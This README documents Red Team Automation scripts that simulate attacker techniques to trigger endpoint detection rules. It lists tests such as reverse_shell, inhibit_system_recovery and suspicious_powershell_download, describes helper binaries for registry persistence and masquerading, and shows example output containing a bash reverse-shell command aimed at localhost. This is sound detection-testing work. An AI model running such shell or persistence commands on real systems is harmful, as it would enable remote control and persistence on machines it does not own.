 # Red Team Automation (RTA) scripts

This collection of RTA scripts can be used to trigger some Endpoint Behavior Protection rules on Windows, macOS, and Linux.

```console
(.venv) $ pwd
/Users/user1/Documents/GitHub/endpoint-rules
(.venv) $ python -m rta --help
usage: __main__.py [-h] [-n NAME] [-l]

optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --name NAME  Name of test to execute. E.g. bitsadmin_execution
  -l, --list            Print a list of available tests
```

## Executables

For some tests, RTA scripts uses executables that are located in the `bin/` folder

* RegDoublePersist.exe - Adds and delete two entries in the `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\` registry, source code located in the `src/` folder
* regsvr32.exe - Fake regsvr32 that does an outbound connection to 8.8.8.8
* renamed.exe - Renamed cmd.exe, with the Original Filename Property tampered

## Listing available tests

```console
(.venv) $ python -m rta --list
Printing available tests
name                           | platforms
===============================================================
javascript_payload             | macos
reg_run_key_asterisk           | windows
inhibit_system_recovery        | windows
bitsadmin_execution            | windows
cmd_shell_via_word             | windows
modify_bootconf                | windows
process_name_masquerade        | windows
suspicious_office_child        | windows
reverse_shell                  | macos, linux
suspicious_powershell_download | windows
rundll32_inf                   | windows
plist_creation                 | macos
```

## Executing a test

```console
(.venv) $ python -m rta --name reverse_shell
[+] Executing command to simulate reverse shell execution
user1 @ MacBook-Pro.localdomain > "bash -c \"bash -i >/dev/tcp/127.0.0.1/4444\" 0>&1"
```